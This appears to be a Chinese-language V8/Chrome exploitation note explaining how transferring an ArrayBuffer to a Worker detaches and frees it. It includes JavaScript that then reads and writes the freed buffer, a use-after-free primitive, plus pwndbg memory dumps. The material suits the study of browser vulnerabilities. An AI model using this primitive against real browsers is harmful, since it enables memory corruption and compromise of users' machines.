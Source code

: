 ####  ArrayBuffer Neuter
> There is a well-known trick in browser security. Javascript allows buffers to be transferred from a source thread to a Worker thread, and the transferred buffers are not accessible (“neutered”) in the source thread. In Chrome, it would also release the buffer of the ArrayBuffer.

作用等价于释放array buffer。

```
const ENABLE_NATIVE = 0
function ArrayBufferDetach(ab) {
    if (ENABLE_NATIVE) {
        eval("%ArrayBufferDetach(ab);");
        return
    }
    let w = new Worker('');
    w.postMessage({ab: ab}, [ab]);
    w.terminate();
}
```

#### 泄露

```
function detachBuffer(x){ // x is the ArrayBuffer that we want to detach
    try{
        var w = new Worker("");
        w.postMessage("",[x]);     
        w.terminate();
    }catch(ex){
        console.log("exception when detaching")
    }
}

var victim = new Float64Array(10).fill(12.34);
detachBuffer(victim.buffer);

//////////
// do something
//////////
var leaks = new Float64Array(10);
var data = new Float64Array(10).fill(13.37);

leaks.set(victim,0); // read from detached buffer
victim.set(data,0)   // write to detached buffer

```

```
0x3b2e080a2c2d <Float64Array map = 0x3b2e08281ac1>
0x3b2e080a2be5 <ArrayBuffer map = 0x3b2e08280dc9>

```
free前
```
uaf Float64Array:

pwndbg> x/10gx 0x3e56080a2c2d-1
0x3e56080a2c2c:	0x080406e908281ac1	0x080a2be5080411a9
0x3e56080a2c3c:	0x0000000000000000	0x0000000000000008
0x3e56080a2c4c:	0x0000000000000001	0x000034d2eee04010 (backing store)
0x3e56080a2c5c:	0x0000000000000000	0x0000000000000000
0x3e56080a2c6c:	0x0804035d00000000	0x0000747474747474

```
